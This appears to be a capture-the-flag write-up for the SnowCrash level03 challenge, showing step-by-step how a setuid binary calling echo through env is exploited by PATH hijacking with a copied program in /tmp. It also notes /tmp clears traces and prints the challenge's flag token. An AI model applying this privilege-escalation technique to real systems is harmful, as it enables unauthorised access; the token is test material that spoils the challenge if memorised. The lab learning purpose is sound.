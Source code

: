 # level03

## Hint

There is a file in the home directory:

```shell-session
level03@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03
```

We can see it's executable by people from the `level03` group, and belong to the flag user whose code we are looking for, and when we do launch it the following displays:

```shell-session
level03@SnowCrash:~$ ./level03
Exploit me
```

Furthermore, and as stated [here](https://askubuntu.com/questions/431372/what-does-s-permission-means), we know that the `setuid bit` of that file means the following:
> s(setuid) means set user ID upon execution. If setuid bit turned on a file, user executing that executable file gets the permissions of the individual or group that owns the file.

## cat 

Feeding that file to the cat command will display some information on the content of the binary files, among which, and most importantly:

>                 h�h �h(�h0�1���TRQV��U��=u?�99���[]Ít&'U�tt	�$�ÐU����D$�D$D$DD$D$D$$�D$DD$D�$ÐU�f�Ћu�[]ÐS��[���[�/usr/bin/env echo Exploit me0pLp��zR|

The binary quite obviously calls `echo` from inside the code using `/usr/bin/env`, meaning we have a lead towards the nature of the vulnerability, the environment in which the code is executed.

## echo

As said previously, the executable belongs to `flag03`. So if we somehow managed to change the current environment in order to call `getflag` and not `echo`, the ownership rights of the binary (belonging to our target `flag03`) would permit us to overcome the limitations of being `level03`.

To do that, we should simply make a binary called `echo` place it before the `real echo` in the `PATH` and call getflag inside that program.

## No rights

A new problem arises, we do not have the rights to creating a file in the home directory.
We therefore need to find a directory that allows us to write into it.

A quick launch of the following command will allow us to find that:

```shell-session
level03@SnowCrash:~$ ls -l /
[...]
d-wx-wx-wx  4 root root  100 May  4 12:06 tmp
[...]
```

There are other directories that allow us to do that, but in the context of an exploit, it would make more sense to create our evil executable in `tmp` since this directory is regularly cleared by the system, thus erasing traces of our exploitation.

### new echo

```shell-session
level03@SnowCrash:~$ which getflag
/bin/getflag
level03@SnowCrash:~$ cp /bin/getflag /tmp/echo
level03@SnowCrash:~$ chmod 777 /tmp/echo
```

We now have an executable file `getflag` that is named `echo` in the `/tmp` directory.

## PATH

The last step is to place our `new echo` before the original one, and the shell will do the rest of the work for us by searching in the `PATH` and finding it when the `level03` binary is executed.

The way forward is easy, just prepend the `tmp` directory to the `PATH`

```shell-session
level03@SnowCrash:~$ export PATH=/tmp/:$PATH && echo $PATH
/tmp/:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

## Exploit me

```shell-session
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```
